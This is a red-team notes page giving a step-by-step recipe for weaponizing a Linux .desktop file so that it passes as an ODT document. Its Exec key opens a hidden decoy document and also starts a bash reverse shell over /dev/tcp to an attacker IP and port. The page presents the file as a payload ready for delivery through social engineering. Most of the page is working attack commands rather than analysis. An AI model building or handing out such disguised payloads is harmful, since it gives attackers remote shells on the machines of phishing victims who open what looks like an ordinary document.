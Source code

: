 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - linux
credits:
  - tokyoneon
---
```

# Manual

First create the file.

```
$ touch malicious_document.odt.desktop
```

Then insert the following keys and values.

```
$ desktop-file-edit \
--set-key="Encoding" --set-value="UTF-8" \
--set-name="document.odt" \
--set-key="Version" --set-value="1.0" \
--set-icon="libreoffice-writer" \
--set-key="Terminal" --set-value="false" \
--set-key="Exec" --set-value="libreoffice --writer \"\$(pwd)/.real_document.odt\"; /bin/bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1" \
--set-key="Type" --set-value="Application" \
--set-key="NoDisplay" --set-value="true" \
--set-key="Hidden" --set-value="false" \
--remove-key="X-Desktop-File-Install-Version" \
malicious_document.odt.desktop 2&>1
```

Run `desktop-file-validate` to check if there are any errors to the `.desktop`. However, you'll see false positives related to the special characters that is inserted.  So it is safe to ignore it. Now the payload is ready to deliver for social engineering.

```
$ desktop-file-validate payload.desktop
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/File Attachment/Shortcut File/Linux/Helpers|Helpers: Desktop Entries]]

### Null Byte

- [Null Byte: Pop a Reverse Shell with a Video File by Exploiting Popular Linux File Managers](https://null-byte.wonderhowto.com/how-to/pop-reverse-shell-with-video-file-by-exploiting-popular-linux-file-managers-0196078)

### DMCXBlue

- [DMCXBlue: Attachments - Desktop Files](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-attachment/attachments-desktop-files)

### Vicarius

- [Vicarius: Phishing Linux Users with Zero Detection!](https://www.vicarius.io/vsociety/posts/phishing-linux-users-with-zero-detection)